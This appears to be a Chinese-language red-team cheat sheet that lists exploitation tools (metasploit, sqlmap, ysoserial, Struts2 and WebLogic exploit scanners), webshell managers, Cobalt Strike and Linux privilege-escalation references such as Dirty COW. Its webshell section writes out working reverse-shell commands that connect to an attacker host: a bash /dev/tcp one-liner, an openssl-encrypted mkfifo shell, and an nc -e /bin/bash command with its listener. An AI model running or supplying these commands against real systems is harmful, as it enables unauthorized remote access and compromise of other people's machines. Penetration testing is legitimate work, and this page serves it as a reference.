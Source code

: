 ### 漏洞利用

metasploit

burpsuite

sqlmap

xxer （xml 注入利用工具） https://github.com/TheTwitchy/xxer

ysoserial （反序列化利用工具） https://github.com/frohoff/ysoserial

Struts2-Scan （struts2 历史漏洞扫描和利用） https://github.com/HatBoy/Struts2-Scan

weblogicScanner （weblogic 历史漏洞扫描利用） https://github.com/0xn0ne/weblogicScanner

exphub （常见 web 框架 cve 利用） https://github.com/zhzyker/exphub

cve，cms，中间件，OA 系统漏洞 exp 合集  
https://github.com/mai-lang-chai/Middleware-Vulnerability-detection

### webshell

菜刀

蚁剑

冰蝎

cobalt strike

普通反弹 shell  

```
bash -i >& /dev/tcp/HOST/PORT 0>&1
```

加密 shell  

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.xx.xx:4444 > /tmp/s; rm /tmp/s
```

nc  

```
攻击机 nc -lvp 4444
靶机 nc -e /bin/bash xx.xx.xx.xx 4444
```

### 提权

sudo 提权  
http://next.uuzdaisuki.com/2020/02/12/linux%E5%B8%B8%E8%A7%81%E6%8F%90%E6%9D%83%E6%96%B9%E5%BC%8F%E6%80%BB%E7%BB%93/

各类 exp  
典型通杀: 脏牛 CVE-2016-5195
